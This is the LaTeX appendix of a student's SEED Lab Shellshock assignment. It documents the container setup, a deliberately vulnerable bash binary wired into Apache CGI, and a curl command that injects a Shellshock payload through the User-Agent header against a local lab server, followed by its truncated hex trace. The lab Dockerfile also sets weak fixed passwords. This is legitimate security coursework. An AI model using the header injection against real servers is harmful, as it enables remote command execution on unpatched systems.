    
\includegraphics[width=0.5\linewidth]{Picture/00_Environment-Setup/00_Building-SeedLab-based-on-SeedLab.pdf.png}
    \caption{Building of Apache Webserver including the vulnerable \lstinline{bash} version}
    \label{fig:seedlabapachesetup}
\end{figure}

\section{Building of \textit{Single Host} Container: Ubuntu 20.04}
\label{apx:container-seed-base-setup}

Based on SEED's lab  files I've customized the container OS by adding \lstinline{tcpdump}, \lstinline{tshark} and all the necessary packages as the following:

\begin{lstlisting}[language=bash, caption=Customization of SEED Lab's Ubuntu Container Image ]
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=noninteractive

RUN apt-get update -y  \
    && apt-get -y install  \
        binutils \
        curl   \
        iproute2  \
        iputils-ping \
        nano   \
        vim \
        net-tools \
        tcpdump \
        tshark \
        unzip \
        python3.8 \
        python3-distutils \
     && rm -rf /var/lib/apt/lists/*

# Create the "seed" user account
# Change seed's and root's passwords to "seed123"
RUN  useradd -m -s /bin/bash seed \
     && echo "root:toor" | chpasswd \
     && echo "seed:seed123" | chpasswd

COPY bashrc /home/seed/.bashrc
COPY bashrc /root/.bashrc

CMD /bin/bash
\end{lstlisting}

I have also added a few more alias to the imported \lstinline{bashrc} ( \lstinline{/home/seed/.bashrc}, \lstinline{/root/.bashrc}):

\begin{lstlisting}[language=bash, caption=Customization of container images bashrc]
# Define aliases for .bashrc
l='ls -CF'
la='ls -A'
ll='ls -l'
ls='ls --color=auto'
mv='mv -i'
rm='rm -i'

# Add docker's build context path (similar to ./volumes)
PATH=$PATH:.
\end{lstlisting}

To export the image for a later use one can use the command \lstinline{ docker image save}: 

\begin{lstlisting}[language=bash, caption=Export the built Ubuntu 20.04 container image to .tar]
podman image save --quiet -o ubuntu-20-seed.tar 7715d4b26bc1

# Import as /localhost/ubuntu-20-seed <- within dockerfile
docker import ubuntu-20-seed.tar ubuntu-20-seed  

\end{lstlisting}

% ------------------------------------------------------------------------
\subsection{Compare \lstinline{bash} versions}

As stated in \cite{shellshock.CVE-2014-6271} \lstinline{bash} versions up to version
\textit{4.3} are vulnerable. For the assignment I used the \lstinline{bash} 
binary provided by SEED lab (renamed to \lstinline{bash_shellshock}) , \textit{Figure \ref{fig:bash.shellshock}} shows the version number invoked with
flag \lstinline{--version}:

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/00_Environment-Setup/00_bash_shellshock-version.pdf.png}
    \caption{Vulnerable \lstinline{bash} version}
    \label{fig:bash.shellshock}
\end{figure}

Please note, the actual \lstinline{bash} binary used by the container image (Ubuntu 20.04) is already patched (\lstinline{version 5.0.17(1)-release}) hence it is not vulnerable to Shellshock vulnerability\cite{shellshock.CVE-2014-6271}. 





% ------------------------------------------------------------------------
\subsection{Modifying \lstinline{/etc/hosts}}
\label{apx:labsetup.mapiptoapache}

% Apache Vulnerability
I map the \lstinline{10.9.0.5} IP Address to by adding \lstinline{www.victim-server.local} to \lstinline{/etc/hosts} as showed in \textit{Figure \ref{fig:labsetup.mapiptoapache}}: 


\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/00_Environment-Setup/00_Adding-phpserver-to-etchost.pdf.png}
    \caption{Mapping the \textit{IPv4} address to \textit{Apache Webserver}}
    \label{fig:labsetup.mapiptoapache}
\end{figure}

% -------------------------------
\subsection{\lstinline{Dockerfile} for \textit{Apache-php} }
\label{apx:shellshocklab.dockerfile.apache-php}

The following codesnippet shows the contents of \lstinline{Dockerfile}
as being part of \ref{apx:seedphp-apache}. 

First I copy the vulnerable \lstinline{bash} with the use of \lstinline{COPY}\lstinline{dockerfile.copy} instruction, as well as \lstinline{vul.cgi}, \lstinline{getenv.cgi} files to path \lstinline{/usr/lib/cgi-bin/}. The file \lstinline{server_name.conf} will be copied to path \lstinline{/etc/apache2/sites-available}.

\begin{lstlisting}[language=bash,caption=]
# ....
COPY bash_shellshock /bin/
COPY vul.cgi getenv.cgi /usr/lib/cgi-bin/
COPY server_name.conf  /etc/apache2/sites-available
RUN  chmod 755 /bin/bash_shellshock \
        && chmod 755 /usr/lib/cgi-bin/*.cgi  \
        && a2ensite server_name.conf  

CMD service apache2 start && tail -f /dev/null
\end{lstlisting}




% -------------------------------
\subsection{Overview of example CGI script: \lstinline{vul.cgi}}
\label{apx:shellshocklab.vul.cgi}

The following code-snippet shows an example CGI program called \lstinline{vul.cgi} as an example to exploit vulnerability \cite{shellshock.CVE-2014-6271}: 

\begin{lstlisting}[language=bash, caption=\lstinline{vul.cgi}] 
\#!/bin/bash\_shellshock       

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
\end{lstlisting}



\section{Logfiles}
%\include{Appendix/99_Log-files/00_curl/debug.trace_psef}

% Naming conventiones used for project
\subsection{Naming conventions for files,folders,executables, etc.}
\label{apx:conventions}

\begin{verbatim}
# -----------------------------------------------------------------------------------------------------------------------
# Naming conventions for folders I followed:
#
# 00_Lab-Environment_Setup      := Screenshots of the setup and running lab enviroment
# 01_shellshock__bash           := Screenshots of exploiting shellshock against vulnerable bash
# 02_shellshock__bash           := Screenshots of exploitation preparation shellshock against vulnerable bash on web server
# 03_shellshock__cgi-exploited  := Screenshots of exploitation of shellshock against vulnerable bash on web server
#
# Naming conventions for files I followed:
# I made up some naming rules for myself based on the ideas incorporated from the program
# nice(1) and some other industrial conventions like SAE/AISI and some other, made up rules.
#
# Please note: In general, the naming conventiones I use troughout the assignments
# has nothing to do with the actual tasks. It has only a meaning for myself and my workflow.
# -----------------------------------------------------------------------------------------------------------------------
\end{verbatim}


\subsection{Contentst of \lstinline{debug.exploited__psef.txt}}
\label{apx:debug.exploited__psef.txt}

The following snippets shows the full contents of \lstinline{debug.exploited__psef.txt}.

I created the file with \lstinline{curl}'s \lstinline{--trace} flag \cite{bin.curl} as showed in 
\textit{Listing \ref{lst:shellshock.curl.debug.psef}}:

\begin{lstlisting}[language=bash, caption=Tracing curl's output ,label={lst:shellshock.curl.debug.psef}]
\curl -H "user-agent: () { :; }; echo;echo current process is running under;echo; /bin/bash -c 'ps -efu $(id -u);echo;echo --- shellshock exploited ---;echo'" http://10.9.0.5/cgi-bin/vul.cgi --trace debug.exploited__psef.txt
\end{lstlisting}

The following \textit{Listing \ref{lst:output.debug.debug.psef}} shows the content of the \lstinline{debug.exploited__psef.txt} generated by \textit{Listing \ref{lst:shellshock.curl.debug.psef}}: 

\begin{lstlisting}[language=bash, caption=Contents of debug.exploited\_\_psef.txt ,label={lst:output.debug.debug.psef}]
== Info:   Trying 10.9.0.5:80...
== Info: TCP_NODELAY set
== Info: Connected to 10.9.0.5 (10.9.0.5) port 80 (#0)
=> Send header, 207 bytes (0xcf)
0000: 47 45 54 20 2f 63 67 69 2d 62 69 6e 2f 76 75 6c GET /cgi-bin/vul
0010: 2e 63 67 69 20 48 54 54 50 2f 31 2e 31 0d 0a 48 .cgi HTTP/1.1..H
0020: 6f 73 74 3a 20 31 30 2e 39 2e 30 2e 35 0d 0a 41 ost: 10.9.0.5..A
0030: 63 63 65 70 74 3a 20 2a 2f 2a 0d 0a 75 73 65 72 ccept: */*..user
0040: 2d 61 67 65 6e 74 3a 20 28 29 20 7b 20 3a 3b 20 -agent: () { :;
0050: 7d 3b 20 65 63 68 6f 3b 65 63 68 6f 20 63 75 72 }; echo;echo cur
0060: 72 65 6e 74 20 70 72 6f 63 65 73 73 20 69 73 20 rent process is
0070: 72 75 6e 6e 69 6e 67 20 75 6e 64 65 72 3b 65 63 running under;ec
0080: 68 6f 3b 20 2f 62 69 6e 2f 62 61 73 68 20 2d 63 ho; /bin/bash -c
0090: 20 27 70 73 20 2d 65 66 75 20 31 30 30 30 3b 65  'ps -efu 1000;e
00a0: 63 68 6f 3b 65 63 68 6f 20 2d 2d 2d 20 73 68 65 cho;echo --- she
00b0: 6c 6c 73 68 6f 63 6b 20 65 78 70 6c 6f 69 74 65 llshock exploite
00c0: 64 20 2d 2d 2d 3b 65 63 68 6f 27 0d 0a 0d 0a    d ---;echo'....
== Info: Mark bundle as not supporting multiuse
<= Recv header, 17 bytes (0x11)
0000: 48 54 54 50 2f 31 2e 31 20 32 30 30 20 4f 4b 0d HTTP/1.1 200 OK.

00a0: 76 2f 6e 75 6c 6c 0a 72 6f 6f 74 20 20 20 20 20 v/null.root

--- REST OF LOG IS OMMITTED ---
\end{lstlisting}


\subsection{Tracing command substitution with \lstinline{curl --trace}}
\label{apx:output.debug.debug.curtracenested}

\begin{lstlisting}[language=bash, caption=Contents of debug.shell-command-substitution.trace.txt ,label={lst:output.debug.debug.curtracenested}]

\end{lstlisting}

\end{appendix}



\end{document}
